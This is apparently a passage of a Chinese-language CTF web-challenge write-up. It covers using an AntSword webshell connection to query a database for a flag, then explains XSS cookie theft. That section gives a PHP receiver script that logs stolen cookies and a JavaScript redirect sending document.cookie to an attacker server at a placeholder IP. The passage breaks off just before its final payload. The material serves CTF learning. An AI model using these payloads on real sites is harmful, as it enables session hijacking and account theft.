 antsword连接发现只有源代码……flag呢？

看来flag挂在sql上了。

更改为数据库连接模式

![](.\代码审计\web305\数据库连接.png)



SELECT `flag` FROM `sds_flabag` ORDER BY 1 DESC LIMIT 0,20;

然后卡了……我去。



### web306





## XSS

> document.cookie							用于js获取当前网页的cookie值
> window.location.href					 用于获取当前页面地址链接
> window.location.href='www.baidu.com'	  用于相当于跳转地址
>
> 服务器准备的接收文件：xss.php
> <?php
> $cookie=$_GET['cookie'];
> $myfile=fopen('cookie.txt','w+');
> fwirte($myfile,$cookie);
> fclose($myfile);
> ?>
>
> http://[ip]/xss.php?cookie=document.cookie		用于给服务器发送当前界面的coolie
> window.location.href='http://[ip]/xss.php?cookie='+document.cookie	用于指向服务器ip并把当前界面的cookie值作为get参数发送过去
>
> 最后的js语句payload：